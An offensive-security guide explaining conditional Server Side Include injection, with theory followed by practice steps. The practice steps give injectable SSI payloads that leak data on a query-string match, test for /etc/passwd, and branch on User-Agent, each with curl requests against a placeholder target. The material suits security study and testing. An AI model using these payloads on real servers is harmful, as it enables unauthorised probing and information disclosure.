

# Conditional SSI

## Context

The purpose of this guide is to demonstrate how conditional logic in Server Side Includes (SSI) can be exploited to manipulate server-side behavior and extract sensitive information. The reader should have a foundational understanding of server-side includes, conditional logic, web server configuration, and specifically, Server Side Include Injection.

## Theory

### Conditional Logic in SSI Directives

Conditional Server Side Includes (SSI) enable the use of directives such as `<!--#if -->`, `<!--#elif -->`, `<!--#else -->`, and `<!--#endif -->` to control server-side logic. Attackers can inject or manipulate these conditional SSI directives to alter the way server-side content is rendered. This capability is exploited when improper input sanitization allows attacker-supplied SSI with conditional logic to be executed by the server.

### Variable Comparison and Boolean Logic in SSI

SSI allows for variable comparison by using expressions such as `<!--#if expr="$QUERY_STRING = 'admin'" -->` and supports boolean operators. Attackers can utilize these variable comparisons to leak information or trigger different server responses based on the outcome of their expressions. The typical attack sequence involves injecting conditional SSI that tests for specific variable values, file existence, or server state.

### Logic Flow Manipulation via SSI Injection

By crafting payloads that branch execution based on server-side variables or file presence, attackers can manipulate the logic flow. Attackers might use nested or obfuscated conditionals to evade basic input filters and execute unintended logic on the server.



## Practice

### Conditional SSI Variable Comparison Exploitation

- Inject the following SSI payload in a vulnerable server context:
  ```html
  <!--#if expr="$QUERY_STRING = 'admin'" -->Sensitive Data: SECRET<!--#else -->Access Denied<!--#endif -->
  ```
  This conditional SSI reveals sensitive data if the `QUERY_STRING` matches 'admin'.

- Execute a command to simulate the condition where `QUERY_STRING` is 'admin':
  ```bash
  curl 'http://target/page.shtml?admin'
  ```
  Observe that the condition grants access to sensitive data.

- Test the alternate path by setting `QUERY_STRING` to a different value:
  ```bash
  curl 'http://target/page.shtml?user'
  ```
  Verify that access is denied under different conditions.

### File Existence Disclosure via Conditional SSI

- Inject the following payload to check the existence of a sensitive file:
  ```html
  <!--#if expr="-e /etc/passwd" -->File Exists<!--#else -->No File<!--#endif -->
  ```
  This payload checks for the existence of `/etc/passwd` using conditional logic.

- Send a request to the SSI-enabled page:
  ```bash
  curl 'http://target/page.shtml'
  ```
  The server response will indicate whether the file exists or not, confirming sensitive file presence.

### Logic Flow Manipulation with Nested Conditionals

- Use a payload to differentiate responses based on the `User-Agent` header:
  ```html
  <!--#if expr="$HTTP_USER_AGENT = /curl/" -->Curl User<!--#elif expr="$HTTP_USER_AGENT = /Mozilla/" -->Browser User<!--#else -->Unknown<!--#endif -->
  ```
  This SSI snippet branches logic based on the `User-Agent` string from the request headers.

- Trigger the first conditional branch with:
  ```bash
  curl -A 'curl' 'http://target/page.shtml'
  ```

- Trigger the `elif` branch with:
  ```bash
  curl -A 'Mozilla' 'http://target/page.shtml'
  ```

The server's response varies based on the `User-Agent`, demonstrating how logic flow can be manipulated.

## Tools

- **curl**: Used to perform HTTP requests exploiting conditional SSIs.